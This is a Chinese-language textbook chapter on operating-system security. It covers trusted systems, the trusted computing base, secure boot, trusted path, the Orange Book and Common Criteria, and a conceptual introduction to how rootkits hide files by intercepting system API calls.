#### 安全设计原则

正如我们上面所指出的，良好的设计原则总是有利于安全。但有几个重要的设计原则是安全特有的，且对于构建可靠、可信的操作系统至关重要。这些原则由 Jerome Saltzer 和 Michael Schroeder（`SAL74, SAL75`）清晰地阐述过，在 **Chapter 3** 中已提出；因其在安全操作系统设计中的重要性，我们在此重述：

*   least privilege
*   economy of mechanism
*   open design
*   complete mediation
*   permission based
*   separation of privilege
*   least common mechanism
*   ease of use

尽管这些设计原则是几十年前提出的，但它们现在依然像最初编写时一样准确。这些原则已在许多可信系统的设计和实现中被反复且成功地使用。更重要的是，过去在操作系统中发现安全问题时，它们几乎总是源于未能遵守这些原则中的一条或多条。这些设计原则促成了“可信”计算机系统或“可信”操作系统的发展。

#### 可信系统

可信系统也有助于应对恶意软件问题。**可信系统**是指已被证明值得一定程度信任、能忠实执行某些活动（即符合用户期望）的系统。与通俗用法相反，此处的“可信”并非指希望，即“哇，我希望这个系统能保护我免受恶意代码侵害”。希望是缺乏理由的信任；可信系统有令人信服的证据来证明用户的信任是合理的。关于该词含义的进一步讨论，请参见 **Sidebar 5-4**。

***

**可信系统：有证据证明其实现了某些功能或策略的系统**

***

***

**Sidebar 5-4 系统的“信任”意味着什么？**

在详细研究可信操作系统之前，让我们更仔细地看看理解和描述信任所涉及的术语。什么条件能让我们认为某物是安全的？

“secure”一词反映了一种二分法：某物要么安全，要么不安全。如果安全，它应能抵御所有攻击，无论是今天、明天，还是一百年后。如果我们声称它是安全的，你要么接受我们的断言（并购买使用），要么拒绝（要么不使用，要么使用但不指望它有多大作用）。

安全与质量有何不同？如果我们声称某物很好，你对我们的说法不那么感兴趣，而更关心客观评价它是否满足你的性能和功能需求。从这个角度看，安全只是优秀或质量的一个侧面；你可以选择在安全与其他特性（如速度或用户友好性）之间取得平衡，以在现有选择中挑选出最好的系统。特别是，你构建或选择的系统可能相当不错，即使它可能不像你希望的那样安全。

###### 可信操作系统

安全专业人员倾向于使用“可信”而非“安全”来描述操作系统。可信系统意指满足预期安全需求、质量足够高，并能使用户对该质量产生信心的系统。也就是说，信任是由系统的接收者或用户感知的，而非由其开发者、设计者或制造商宣称的。作为用户，您可能无法直接评估这种信任。您可能信任其设计、专业评估或受重视同事的意见。但归根结底，由您负责认可您所需的信任程度。

如果我们知道代码经过了严格的开发和分析，从而有理由相信代码会按预期运行且仅按预期运行，我们就说该软件是**可信软件**。通常，可信代码可以作为其他非可信代码运行的基础。也就是说，非可信系统的质量在一定程度上取决于可信代码；可信代码为整个系统的安全奠定了基线。特别是，当有合理或客观的依据相信操作系统能正确控制从其运行的组件或系统的访问时，该操作系统即可被视为可信软件。

要信任任何程序，我们将信任建立在严格的分析和测试基础上，寻找以下关键特征：

*   **功能正确性**。程序执行其应执行的功能，且运行正确。
*   **完整性强制**。即使面对错误命令或未授权用户的命令，程序也能保持其接触的数据的正确性。
*   **最小权限**。程序被允许访问安全数据，但访问权限被最小化，且访问权限和数据均不会传递给其他非可信程序或返回给非可信调用者。
*   **适当的置信度**。程序已被审查并评级，其信任程度适合其将在其中使用的数据类型和环境。


可信软件常被用作普通用户访问敏感数据的安全途径。可信程序用于为用户执行有限的（安全的）操作，而不允许用户直接访问敏感数据。

信任是有程度之分的；与安全不同，信任不是二元对立的。例如，您信任某些好友以至于告诉他们深藏的秘密，但只信任其他人告诉您几点了。信任是一种往往随时间增长的特征，依据证据和经验而定。例如，随着借款人按预期偿还贷款，银行会增加对他们的信任；信用记录良好的借款人可以借到更大金额。最后，信任是赢得的，而非自称或授予的。

本章中形容词“可信”多次出现，例如：

*   **可信进程**（可影响系统安全的进程，或其错误或不安全执行能够违反系统安全策略的进程）
*   **可信产品**（经过评估和批准的产品）、**可信软件**（系统中可依赖以强制执行安全策略的软件部分）
*   **可信计算基**（计算系统中所有保护机制的集合，包括硬件、固件和软件，它们共同在产品或系统上强制执行统一的安全策略）
*   **可信系统**（采用足够硬件和软件完整性措施，以允许其用于处理敏感信息的系统）

这些定义改编自[NIS91]。这些定义的共同概念包括：

*   安全策略的强制执行
*   措施和机制的充分性
*   客观评估

因此，形容词*可信*在计算机安全领域具有精确含义。

---

### 可信系统的历史

可信系统在计算机安全领域有着漫长且曲折的历史。早在 1960 年代多用户、共享计算的早期，对安全系统的需求就已显现。Willis Ware [WAR70] 主持了一个委员会，表达了系统需要更强安全强制执行的需求。20 世纪 70 年代，研究和实际系统展示了此类系统的能力和必要性，最终促成了 James Anderson 委员会的报告 [AND72]，该报告呼吁开发一个获取更可信系统的流程。

从 20 世纪 70 年代末的草案开始，美国国防部编写了《可信计算机系统评估标准》（称为 TCSEC 或《橙皮书》，因其封面颜色得名），该文档规定了可信计算机系统的功能、设计原则和评估方法论。随着时间的推移，同一方法被扩展到网络组件和数据库管理系统。由于我们稍后将解释的原因，该方案未达到其预期的接受程度。尽管如此，TCSEC 为在此基础上的一系列进步奠定了基础。同样重要的是，这一进程始于美国，但迅速扩展至加拿大、德国、英国、荷兰和法国（以及其他国家的工作），形成了真正国际化的可信计算机系统方法，如图 5-16 的时间线所示。


**图 5-16** 可信系统设计与评估标准

---

#### 橙皮书 (TCSEC)：将安全计算系统的原则和需求编纂成文的首次尝试

20 世纪 80 年代和 90 年代出现了多个评估系统可信度的候选方案，这些方案在 1995 年至 2003 年间通过一个名为“信息技术安全评估通用标准”的国际评估流程趋于一致。如今，得益于该标准，市场上有许多其可信度已获独立确认的产品。

在下一节中，我们将探讨可信系统的重要功能。然后，在接下来的章节中，我们将简要描述当前的可信系统评估和认证流程。

#### 可信系统功能

可信系统包含特定功能以确保安全。在本节中，我们将回顾可信系统的几个方面，首先从可信计算基开始。

##### 可信计算基 (TCB)

**可信计算基**，或 **TCB**，是我们赋予可信操作系统中强制执行安全策略所需一切组件的名称。或者，我们可以说 TCB 由我们依赖其正确强制执行策略的可信操作系统部分组成。

> **可信计算基 (TCB)：系统强制执行其安全策略所需的一切**

我们可以将 TCB 视为一个连贯的整体，具体如下。假设您将可信操作系统划分为 TCB 部分和非 TCB 部分，并允许最熟练的恶意程序员编写所有非 TCB 部分。由于 TCB 处理所有安全事务（包括保护自身），恶意非 TCB 部分的任何作为都无法损害 TCB 对安全策略的正确强制执行。这个定义让您感觉 TCB 形成了一个堡垒般的外壳，保护系统中需要保护的一切。但这个类比也阐明了可信操作系统中“可信”的含义：我们对整个系统安全的信任取决于 TCB。

显然，TCB 必须既正确又完整。因此，要理解如何设计一个好的 TCB，我们重点关注操作系统中 TCB 与非 TCB 元素之间的划分，并集中精力确保 TCB 的正确性。

##### TCB 功能

究竟什么构成了 TCB？我们可以通过列出安全实施所依赖的系统元素来回答这个问题：

*   **硬件**，包括处理器、内存、寄存器、时钟和 I/O 设备
*   某种**进程**概念，以便我们可以分离和保护安全关键进程
*   **原始文件**，如安全访问控制数据库以及标识和认证数据
*   **受保护内存**，以便参考监视器免受篡改
*   某种**进程间通信**，以便 TCB 的不同部分可以传递数据并激活其他部分；例如，参考监视器可以安全地调用审计例程并向其传递数据

这份清单似乎涵盖了操作系统的大部分内容，但实际上 TCB 只是一个小子集。例如，虽然 TCB 需要访问实施数据文件，但它不需要层次目录、虚拟设备、索引文件和多设备文件的完整文件结构。因此，TCB 可能只包含一个原始文件管理器，用于处理 TCB 所需的少量简单安全数据文件。提供外部可见文件的更复杂的文件管理器可以位于 TCB 之外。图 5-17 展示了典型的 TCB 与非 TCB 划分。


**图 5-17** 划分为 TCB 和非 TCB 部分的系统

TCB 必须维护每个域的机密性和完整性，监控四种基本交互。

*   **进程激活**。在多道程序环境中，进程的激活和停用频繁发生。从一个进程切换到另一个进程需要完全更换寄存器、重定位映射、文件访问列表、进程状态信息和其他指针，其中大部分是安全敏感信息。
*   **执行域切换**。在一个域中运行的进程经常调用其他域中的进程，以获取更敏感或敏感度较低的数据或服务。
*   **内存保护**。因为每个域都包含存储在内存中的代码和数据，TCB 必须监控内存引用，以确保每个域的机密性和完整性。
*   **I/O 操作**。在某些系统中，软件参与 I/O 操作中每个字符的传输。该软件将最外层域中的用户程序连接到最内层（硬件）域中的 I/O 设备。因此，I/O 操作可以跨越所有域。

##### TCB 设计

将操作系统划分为 TCB 和非 TCB 方面，对设计人员和开发人员来说很方便，因为这意味着所有与安全相关的代码都位于一个（逻辑）部分中。但这种区别不仅仅是逻辑上的。为了确保安全实施不受非 TCB 代码的影响，TCB 代码必须在某些受保护状态下运行，这种状态将其与非 TCB 代码区分开来，并保护它免受 TCB 外部任何代码的干扰或破坏。因此，TCB 和非 TCB 的结构划分必须是有意识地进行的。

然而，一旦完成了这种结构划分，TCB 外部的代码就可以随意更改，而不会影响 TCB 实施安全的能力。这种更改能力有助于开发人员，因为这意味着操作系统的主要部分——实用程序、设备驱动程序、用户界面管理器等——可以随时修订或替换；只有 TCB 代码必须受到更严格的控制。最后，对于评估可信操作系统安全性的任何人来说，划分为 TCB 和非 TCB 可以大大简化评估，因为无需考虑非 TCB 代码。

> **TCB 分离是为了实现自我保护和独立性。**

##### TCB 实现

与安全相关的活动可能在不同的地方执行。安全潜在地与每次内存访问、每次 I/O 操作、每次文件或程序访问、每次用户激活或终止、每次新执行线程的创建以及每次进程间通信有关。在模块化操作系统中，这些独立的活动可以在独立的模块中处理。因此，这些独立的模块每一个都既有安全相关的功能，也有其他功能。

将所有安全功能集中到 TCB 中可能会破坏现有操作系统的模块化。统一的 TCB 也可能太大，难以轻松分析。尽管如此，设计人员可能决定分离现有操作系统的安全功能，从而创建一个**安全内核**。这种形式的内核如图 5-18 所示。


**图 5-18** 安全内核

一种更明智的方法是先设计安全内核，然后围绕它设计操作系统。霍尼韦尔公司在设计其安全操作系统 Scomp 的原型时采用了这种技术。该系统仅包含二十个模块来执行基本安全功能，这些模块由不到 1,000 行高级语言源代码组成。一旦实际的 Scomp 安全内核建成，其功能增长到包含约 10,000 行代码。

在基于安全的设计中，安全内核形成一个接口层，紧邻系统硬件之上。安全内核监控所有操作系统硬件访问并执行所有保护功能。安全内核依赖硬件支持，允许操作系统本身处理大多数与安全无关的功能。这样，安全内核可以做到小巧高效。作为这种分区的副产品，计算系统至少拥有三个执行域：安全内核、操作系统和用户。这种情况在本章开头的图 5-1 中有所描绘。

###### 安全启动

启动是系统设计中已知的弱点。在操作系统完全投入功能之前，其保护能力是有限的。随着更多组件投入运行，它们对资源行使更完整的控制。在启动期间，威胁的性质也会降低，因为用户尚未活跃，网络连接尚未建立。

可信系统的设计人员认识到系统启动时的脆弱性，尤其是从先前故障重新启动时。因此，可信系统设计文档（如《橙皮书》[DOD85]）要求开发人员证明：当系统启动时，所有安全功能都在正常工作，且没有任何先前系统会话的残留影响。

> **安全启动确保没有恶意代码可以阻止或干扰安全实施。**

###### 可信路径

安全的关键在于将人类用户与操作系统内部的主体构造关联起来。在第 2 章中，我们详细介绍了用户向操作系统证明身份的认证技术。

但另一个方向呢：用户不能被期望向任何请求它的软件暴露唯一的验证数据。（你不会——或者至少不应该——在任何提示你的屏幕上输入密码。）正如你所知，任何中等水平的程序员都能编写代码弹出一个带有用户名和密码字段的框。你如何确信这个框来自密码管理器并将输入的数据传递给它？

你怎么知道这个框是合法的？这个问题实际上只是认证的另一面：应用程序想确保你是你声称的那个人，但你也需要知道应用程序就是它声称的那个应用程序。

在应用层面上，这个问题很难解决，但在操作系统层面上则相对容易一些。**可信路径** 是一种不可伪造的连接，通过它用户可以确信自己正在与操作系统直接通信，而不是与任何欺诈性的中间应用程序通信。在 Microsoft Windows 的早期，用户必须同时按下 Control、Alt 和 Delete 键来激活登录提示。键盘设备驱动程序会捕获这一特定序列，并立即将控制权转移给操作系统的认证例程。因此，即使应用程序能伪造一个看起来很逼真的登录屏幕，用户也知道唯一安全的登录方式是按 Control–Alt–Delete 组合键。

> **可信路径可防止用户与操作系统的安全执行机制之间发生干扰。**

可信系统要求对所有安全关键的认证操作（如更改密码）使用可信路径。《橙皮书》[DOD85] 要求“在其与用户之间建立一条用于初始登录和认证的可信通信路径。通过此路径的通信必须由用户专门发起。”附注 5-5 描述了一个因缺乏可信路径而导致安全受损的物理案例。

##### 附注 5-5 套取读卡器数据

记者 Brian Krebs 发表了一系列关于 ATM 读卡器的报道。（参见 [`krebsonsecurity.com/2011/01/atm-skimmers-up-close/`](http://krebsonsecurity.com/2011/01/atm-skimmers-up-close/) 并点击链接查看其他帖子；特别注意照片中这些设备看起来有多么逼真。）**读卡器** 是一种安装在 ATM 机插卡槽上的装置。读卡器会读取银行卡磁条上编码的信息，某些型号还会用一个微型摄像头拍摄你输入 PIN 码时的手部动作。犯罪分子随后下载捕获的数据，并利用获取的编码信息制作一张复制的银行卡。有了你的 PIN 码，犯罪分子就能冒充你访问你的账户。

ATM 卡欺诈在美国很盛行，但很少有消费者担心，因为目前大多数银行会赔偿个人账户的损失。然而在欧洲，银行采取了更严厉的立场，让客户承担部分损失。根据欧洲 ATM 安全小组的数据，与 2009 年同期相比，2010 年 1 月至 6 月期间 ATM 犯罪上升了 24%；2010 年该期间发生 5,743 起攻击，损失达 1.44 亿欧元（近 2 亿美元）。相比之下，美国特勤局估计美国的 ATM 欺诈金额约为 10 亿美元。

剑桥大学的三位研究人员 [DRI08] 发现了一个类似的问题：欧洲广泛用于验证客户信用卡的手持终端被加装了读卡器。客户将卡交给店员，店员将其插入带有数字键盘的机器，然后把机器递给客户输入秘密 PIN 码。虽然客户正在执行认证功能，但研究人员发现他们可以获取卡数据和 PIN 码，从而重用这些数据。漏洞涉及物理篡改和拦截两方面。这些研究人员仅设计并实现了一个概念验证演示，因此据我们所知，该问题未造成实际危害。尽管如此，不关注安全弱点的设计人员仍生产出大量广泛使用的产品。

##### 对象重用

计算系统保持效率的一种方式是重用对象。操作系统控制资源分配，当资源被释放供其他用户或程序使用时，操作系统允许下一个用户或程序访问该资源。但可重用对象必须受到严格控制，以免造成严重漏洞。要了解原因，请考虑创建新文件时会发生什么。通常，文件的空间来自磁盘、内存或其他存储设备上一个已释放的、先前使用过的空间池。释放的空间以“脏”状态返回池中，即仍包含前一用户的数据。因为大多数用户会在尝试读取文件之前先写入数据，新用户的数据会覆盖前任所有者的数据，因此不会不当泄露前一用户的信息。然而，恶意用户可能会申请大量空间，然后在写入之前通过读取来搜寻敏感数据。这种攻击称为**对象重用**。

> **对象清理确保当主体使用由另一个主体释放的内存对象时，不会发生数据泄露。**

为防止对象重用泄露，操作系统会在允许下一个用户访问之前，清除（即覆盖）所有待重新分配的空间。磁性介质特别容易受到此威胁。非常精密且昂贵的设备有时可以将最近记录的数据与之前记录的数据、再之前的数据等分离开来。这种称为**磁剩余**的威胁超出了本书范围。更多信息请参见 [NCS91b]。无论如何，操作系统必须负责在允许访问资源之前对其进行“清理”。

##### 审计

可信系统还必须跟踪任何与安全相关的更改，例如新程序的安装或操作系统的修改。审计日志必须受到保护，防止除经过认证的安全管理员之外的任何人进行篡改、修改或删除。此外，审计日志必须在系统运行期间全程处于激活状态。如果审计介质填满（例如，写入磁盘的审计记录用尽了磁盘上的所有空间），系统应关闭。

#### 可信系统研究的成果

《橙皮书》的最初目的是确保一系列可信的、强制执行安全策略的产品，主要用于保护美国的军事敏感信息。《橙皮书》成为美国国防部标准，一项法规要求“92 年达 C2 级”，即到 1992 年所有新的国防部计算机达到一个适度的可信度级别。该强制令从未被强制执行，一度似乎这项工作毫无成果。

##### 当今的可信系统

20 世纪 80 年代和 90 年代，在可信系统的设计和实现上投入了大量心血和资金。PSOS [NEU80]、KSOS [MCC79]、KVM [GOL77]、SCOMP [FRA83]、Multics [SAL74]、Trusted Xenix、Trusted Mach [BRA88]、GEMSOS [NCS95] 和 Vax VMM [KAR90] 等研究与开发项目，帮助确立了高保障、强制执行安全策略的可信系统原则。

然而今天，鲜有安全从业者听说过这些系统，更别说了解它们的内容了。这些项目至少因两个原因从安全领域消失：首先，高保障、强制执行安全策略的操作系统市场非常有限。即使是处理敏感数据（如高度机密的军事或外交信息）的用户，也发现他们更倾向于甚至更需要功能性、性能和易用性，而非安全性。其次，这些系统只是制造商主要系统产品的副线，维护这种单独的产品线变得不可持续。如今，正如附注 5-6 所述，甚至“信任”一词也失去了一些价值。

幸运的是，可信系统设计的经验教训依然有效。诸如最小权限和分离等设计原则；诸如可信路径、安全启动和对象重用等特性；以及诸如安全内核和参考监视器等概念，至今仍在延续。例如，当今的防火墙——一种广泛使用的网络安全产品（我们将在下一章介绍）——就是参考监视器概念的一个实例，而微软的可信计算（详见第 3 章）则深度基于可信系统原则。因此，我们建议你采纳历史学家的哲学：了解过去有助于你理解当下并为未来做准备。

> **专栏 5-6 信任可以被认证吗？**
>
> 我们能否依赖某项服务或搜索引擎来验证在线站点是否可信？TRUSTe 是一个由隐私倡导者于 1997 年创立的非营利组织，它利用 TRUSTe 认证向用户保证某网站将保护用户隐私。2006 年，TRUSTe 还推出了“可信下载计划”，旨在确认用户从某网站下载的软件既非广告软件也非间谍软件。
>
> Edelman [EDE06] 调查了持有 TRUSTe 认证网站的可信度。令人沮丧的是，他发现获得 TRUSTe 认证的网站不值得信任的可能性是未认证网站的两倍。同样，他发现依赖知名且受信任的搜索引擎也会增加被引导至不可信网站的可能性。
>
> 2008 年，Edelman 发现网站 coupons.com 将数据存储在具有欺骗性的文件名和注册表项中，这些文件名和注册表项被设计成看起来像是 Windows 的一部分。文件名诸如 `c:\windows\WindowsShellOld.Manifest.1` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Controls Folder\Presentation Style`。而且，即使在特定要求下，coupons.com 也未能移除这些文件。2008 年 2 月，Edelman 向 TRUSTe 报告了这一做法，因为 coupons.com 展示了 TRUSTe 证书；不久之后，TRUSTe 声称该问题已通过新软件解决，且 coupons.com 再次变得可信。但 Edelman 的进一步分析显示，即使在用户运行卸载程序后，那些欺骗性的文件名和注册表项依然存在（[`www.benedelman.org/`](http://www.benedelman.org/)）。

##### 橙皮书——概述


在 20 世纪 70 年代末橙皮书最初制定时，计算模型仅为大型主机，多用户共享访问权限和数据。尽管在大学和实验室等环境中，松散管控的共享匹配相对自由的信息交换，但军方和大型商业用户需要保证未经授权的用户无法访问敏感数据。军方关心机密信息的保护，企业用户则需保护商业机密、商业计划以及会计和人事记录。因此，橙皮书的目标是推动开发出高度抵抗不可接受信息流的多用户系统。

这一焦点导致了一个由两部分组成的可信系统评级标准。共有六个等级，按顺序为：C1（最低）、C2、B1、B2、B3 和 A1（最高）。在每一步中，安全功能和对正确运行的必要保证都在增加，在 C2 和 B1 之间功能有重大跨越，在 B2、B3 和 A1 处保证有重大升级。在这六个等级中的每一个，功能和保证都作为一个整体捆绑在一起。

将功能与保证捆绑对于橙皮书的目标至关重要，因为其作者认为关键功能（例如，在允许未获授权用户访问的系统上维护受保护的机密数据）需要与高保证相结合。然而，严格的关联也严重限制了该书的适用性：商业用户想要高保证，但对机密数据的刚性结构鲜有需求。因此，在经过一些草案结构和大量讨论后，一组国家的代表确定了现在被称为通用准则的更灵活结构。

### 通用准则

通用准则的作者相较于橙皮书做出了两项关键进步。首先，他们同意将功能与保证分离。每个用户和每个开发者都可以选择一组合适的功能，并*独立地*选择实现这些功能的保证等级。尽管关键功能与低保证相结合的产品价值存疑，但如果开发者感知到市场需求，该方案不应阻碍创新。

通用准则定义了七个**保证等级**，从 EAL1（最低）到 EAL7（最高）。在最低级别，开发者声称遵循了某种实践，严格程度逐级上升，直到最高级别时实践更为严格且合规性由独立测试实验室验证。

通用准则的第二大突破是不限制功能范围。事后诸葛亮地看，橙皮书的作者本应意识到，围绕多用户、独立的大型主机计算构建设计框架，一旦计算范式发生转移注定会失败。不幸的是，这种转移几乎在橙皮书被采纳为国防部标准的同时就发生了，恰逢个人计算机和网络的兴起。

通用准则的作者接受了他们无法预见未来将创建何种产品的事实。因此，他们允许一组开放式的**保护配置文件**，可为特定的新产品类型（如防火墙或入侵检测设备）指定安全功能，而这些产品在橙皮书编写时尚无商业化供应。

截至本书撰写时，通用准则仅有一个针对操作系统的保护配置文件（这些随时间推移相对稳定），但针对集成电路和智能卡设备却有 50 个配置文件，显示出此类产品的蓬勃发展。截至 2014 年中，通用准则认证产品的部分数据如表 5-3 和表 5-4 所示。


**表 5-3** 按年份统计的评估产品


**表 5-4** 按类型统计的评估产品（部分列表）

***

**通用准则：安全评估的多国标准；将标准分离为功能性与有效性**

***

本节对可信系统的简要概述探讨了使操作系统能可靠地执行安全策略的特质。正如你所了解到的，操作系统对安全计算至关重要，因为它们（以及物理硬件）控制着对所有资源的访问。参考监视器必须是不可绕过的：如果有人能规避访问控制机制，就不存在任何控制。

接下来我们将探讨一种针对操作系统的致命攻击——Rootkit（根工具包/根套件）。形象地说，Rootkit 是一种潜入操作系统底层、位于操作系统与硬件之间的恶意代码。处于这一位置，Rootkit 可以规避、禁用或篡改操作系统的工作；实质上，Rootkit 控制了操作系统。正如你所能想象的，Rootkit 对计算机系统安全构成了极大的威胁。

### 5.3 Rootkit

#### Root：最高权限主体（在 Unix 系统中）

在 Unix 操作系统中，`root` 是权力最大的用户的身份，拥有内存等敏感系统资源，并执行创建用户和终止进程等强大操作。身份 `root` 通常不是一个拥有登录凭据的用户；相反，它是为拥有并运行所有原始系统任务而建立的实体（主体）的名称（这些任务创建了其余的用户身份，如管理员和普通用户）。因此，攻陷——即成为——一个拥有 `root` 特权的任务是黑客的终极目标，因为从该位置黑客拥有完全且不受限制的系统控制权。

---

#### Rootkit：获取 Root 特权的工具或脚本

正如你所见，攻击者分为两类：设计新攻击的人，以及仅执行他人杰作的人。后者远多于前者，但新攻击尤为麻烦，因为它们是新的，因此未被防护工具和响应团队所知。正如我们在第 3 章中所解释的，执行他人攻击代码的人有时被贬称为“脚本小子”，因为他们只是简单地执行他人的攻击脚本或包。达到 `root` 状态的攻击包被称为 **Rootkit**。在本节中，我们将审视 Rootkit，了解 `root` 的力量如何被用来造成严重且难以根除的危害。

---

##### 手机 Rootkit

罗格斯大学的研究人员 [BIC10] 证明了将 Rootkit 加载到手机上的能力。手机的操作系统相当简单，尽管功能丰富的智能手机需要更复杂的操作系统来支持图形用户界面、可下载应用程序和相关数据文件。操作系统的复杂性导致了更多的攻击机会，并最终产生了 Rootkit。Rootkit 可以存在于任何操作系统上；罗格斯的研究人员选择研究这一平台，因为它相对简单，且许多用户忘记了——或未意识到——它是一个可能被攻陷的操作系统。本研究中的观点同样适用于更传统计算机的操作系统。

在一项测试中，研究人员演示了一个 Rootkit，它能在手机所有者不知情的情况下开启手机的麦克风。在这种情况下，攻击者会向受感染的手机发送一条不可见的短信，指示其拨打电话并开启麦克风；想象一下，当手机所有者正在参加攻击者想要窃听的会议时，这种攻击会产生何种影响。

在另一个演示中，这些相同的研究人员展示了一个 Rootkit，它通过手机 GPS 接收器提供的位置信息来响应文本查询。这将使攻击者能够追踪所有者的行踪。

在第三项测试中，研究人员展示了一个 Rootkit，它能开启耗电功能——如蓝牙无线电和 GPS 接收器——以快速耗尽电池。人们依赖手机求救。想象一个场景：攻击者想阻止受害者呼救，例如攻击者开车追赶受害者时。如果手机没电了，手机就无法求救。

这三种攻击最糟糕的部分在于它们实际上是不可检测的：对未察觉危险的用户来说，手机界面似乎没有任何不同。Rootkit 因此可以执行通常由操作系统保留的操作，但却在用户不知情的情况下进行。

Rootkit 是病毒主题的一个变体。Rootkit 是一段恶意代码，它竭尽全力不被发现，或者一旦被发现并移除，便在可能的情况下重新建立自身。名称 Rootkit 指的是代码试图作为 `root` 运行——即 Unix 系统的超级用户，之所以如此命名是因为 Unix 操作系统中最关键和最基础的部分被称为 root 函数。

设身处地为攻击者着想。如果你想要持久性，你需要一种极难被检测到的攻击，这样受害者就无法找到并尝试根除你的代码。两个条件可以帮助你保持未被发现状态：你的代码在可能阻止你执行的其他程序之前执行，以及你不被检测为文件或进程。你可以同时实现这两个目标。在系统启动周期早期掌握控制权，将允许你控制其他系统防御机制，而不是被它们控制。如果你的代码引入得足够早，它可以覆盖其他本应检测其存在的正常系统功能。让我们看一个简单的例子。

##### Rootkit 逃避检测

恶意代码由可执行文件组成，就像所有其他代码一样。为了能够执行，恶意代码必须定位并调用其组件，这通常意味着其中一些组件是可预测的：它们具有特定的名称、大小、位置或形式，但这种可预测性也使它们成为搜索恶意代码工具（如病毒检查器）的目标。一次攻击可能涉及存储在 `c:/winnt/apps` 中的文件 `mal_code.exe`。当你在该目录上运行文件资源管理器程序时，`mal_code.exe` 将出现在列表中，你可能会识别并根除该文件。

防病毒工具（以及大多数程序）不包含查询磁盘、确定磁盘格式、识别文件及其存储位置、从索引表中查找文件名和属性，或构建结果以供使用和显示的代码。相反，这些工具通过应用程序编程接口（API）调用内置函数来获取此信息。例如，如图 5-19 所示，Windows API 函数 `FindFirstFile()` 和 `FindNextFile()` 返回符合特定标准的第一个或下一个文件的文件名。标准可以为空，意味着选择所有文件。这些函数依次调用 NT 内核“原生模式”系统函数，如 `NTQueryDirectoryObject`。这一调用链的末端是一个简单的函数调用：将一个数字加载到寄存器中以表示要执行的特定系统功能，并执行一条调用指令以调用操作系统内核。操作系统返回描述性信息，高层函数对该信息进行格式化并呈现。这些步骤反映了本章前面图中描绘的操作系统分层运作。


**图 5-19** 使用 API 和函数调用检查文件

如果恶意代码插手了这一调用序列会怎样？例如，考虑图 5-20 所示的目录列表，它描绘了子目录的真实内容。攻击者可以拦截该列表，将其更改为图 5-21 所示的列表，其中文件 `mal_code.exe` 不再出现。

```
Volume in drive C has no label.

Volume Serial Number is E4C5-A911

Directory of C:\WINNT\APPS

01-09-14  13:34        <DIR>          .
01-09-14  13:34        <DIR>          ..
24-07-12  15:00             82,944 CLOCK.AVI
24-07-12  15:00             17,062 Coffee Bean.bmp
24-07-12  15:00                80 EXPLORER.SCF
06-08-14  15:00           256,192 mal_code.exe
22-08-08  01:00           373,744 PTDOS.EXE
21-02-08  01:00             766 PTDOS.ICO
19-06-10  15:05            73,488 regedit.exe
24-07-12  15:00            35,600 TASKMAN.EXE
14-10-12  17:23           126,976 UNINST32.EXE

             9 File(s)        966,852 bytes
             2 Dir(s)  13,853,132,800 bytes free
```

**图 5-20** 未修改的目录列表

```
Volume in drive C has no label.
Volume Serial Number is E4C5-A911
Directory of C:\WINNT\APPS
01-09-14  13:34    <DIR>          .
01-09-14  13:34    <DIR>          ..
24-07-12  15:00               82,944 CLOCK.AVI
24-07-12  15:00               17,062 Coffee Bean.bmp
24-07-12  15:00                   80 EXPLORER.SCF
22-08-08  01:00              373,744 PTDOS.EXE
21-02-08  01:00                  766 PTDOS.ICO
19-06-10  15:05               73,488 regedit.exe
24-07-12  15:00               35,600 TASKMAN.EXE
14-10-12  17:23              126,976 UNINST32.EXE
               8 File(s)            710,660 bytes
               2 Dir(s)  13,853,472,768 bytes free
```

**图 5-21** 修改后的目录列表

发生了什么？请记住，操作系统功能是由分布在整个操作系统中的任务实现的。用于显示文件列表的实用程序使用诸如 `FindNextFile()` 和 `NTQueryDirectoryObject` 之类的原语。为了保持不可见，Rootkit 会拦截这些调用，因此如果 `FindNextFile()` 的结果指向 `mal_code.exe`，Rootkit 就会跳过该文件并再次执行 `FindNextFile()` 以查找 `mal_code.exe` *之后* 的下一个文件。生成列表的高级实用程序会保留其接收到信息的文件大小的运行总计，因此列表中的总计正确报告了除 `mal_code.exe` 之外的所有文件。这种 Rootkit 的隐蔽操作如图 5-22 所示。

这些列表是用简单的 DOS `dir` 命令生成的，用于表示这些系统 API 产生的输出类型。如果攻击者拦截并修改了进入 API 的输入或来自 API 的输出，其效果就是使文件 `mal_code.exe` 对高级调用者不可见。因此，如果防病毒工具通过获取文件列表并检查每个文件来进行扫描，该工具将会遗漏恶意文件。


**图 5-22** Rootkit 过滤文件描述结果

Rootkit 实际上成为了操作系统内核的一部分。在本例中，Rootkit 干扰了磁盘上文件的枚举，因此它不会将自己的文件名传递给病毒检查程序进行检查。但是，因为 Rootkit 与操作系统集成在一起，它可以执行操作系统能够执行的任何功能，通常无法被检测到。例如，它可以替换操作系统的其他部分，重写处理中断的例程的指针，或从系统启动时要调用的代码列表中移除程序（如恶意代码检查器）。这些行为除了更常见的恶意效果之外，还包括删除文件、将敏感数据发送到远程系统，以及将有害代码转发给电子邮件联系人。

Rootkit 以操作系统组件的权限和位置运行。它作为操作系统启动的一部分自动加载，并且由于其位置，它可以拦截和修改操作系统调用和返回值，如图 5-23 所示。操作系统执行审核日志记录，但 Rootkit 可能无法将其自身的活动传递给日志记录器。Rootkit 处于保持未被发现和不可发现的最佳位置，并可不受限制地执行任何操作。


**图 5-23** Rootkit 拦截并修改基本操作系统功能

###### Rootkit 在无监管状态下运行

在第 3 章中，我们介绍了恶意代码的概念，例如病毒或特洛伊木马，它们从系统传播到系统，并在当前用户的权限下运行。正如我们在该章中所说，恶意代码作者的一个目标是提升权限，即以管理员或更强大用户的更高权限运行；显然，代码拥有的特权越多，造成的危害就越大。终极特权级别是操作系统，因此替换部分或全部操作系统功能相当于获得了最高权力。

因为它们想要保持不被发现，Rootkit 可能难以检测和根除，甚至难以统计。据估计，Rootkit 占所有恶意代码的 7% [TRE10]。正如侧边栏 5-7 所述，Rootkit 还可能干扰计算机维护，因为它们的功能可能与正在被修改的其他操作系统功能交织在一起。

---

####### 侧边栏 5-7 Rootkit 导致内核修改失效

2010 年 2 月，微软发布了其惯例的每月操作系统更新，其中包括一个名为 MS10-015 的补丁，级别为“重要”。该补丁旨在修复一个先前已公开的漏洞和一个未公开的漏洞。微软建议用户尽快安装补丁。

